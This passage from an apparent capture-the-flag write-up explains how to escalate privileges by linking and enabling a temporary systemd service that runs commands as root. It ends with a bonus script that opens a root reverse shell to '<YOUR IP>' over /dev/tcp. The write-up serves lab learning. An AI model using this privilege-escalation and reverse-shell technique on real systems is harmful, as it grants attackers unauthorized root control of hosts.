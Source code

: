 To explain each command:

- First we create an environment variable "TF" assigned to a temporary `systemd` service file
- Now we echo our config into this service file one line at a time
	- *Note the `echo` command doesn't have a closing single quote until line 6, allowing multiple single-line echo inputs*
- First configure the start-up type to be *oneshot*, which is the default
- Next set the command to run on service startup (in this case bash reading the root flag) and output the result into a temporary file
- Set the state at which the service will run to multi-user mode
	- *Note the closing single quote here to end the echo into $TF*
- Now the config file is complete, make it available for `systemctl` with a symlink (as it lives outside the paths `systemctl` will usually search for)
- Finally we enable the service defined in $TF and read the output stored in `/tmp/output`

We've now successfully escalated our privileges to read the final flag file! 

As a bonus, if we wanted to instead spawn a reverse shell as root:

```shell
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/<YOUR IP>/444 0>&1"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

*Be sure to listen on TCP/444 (or any other port) since TCP/443 will be taken from our webshell!*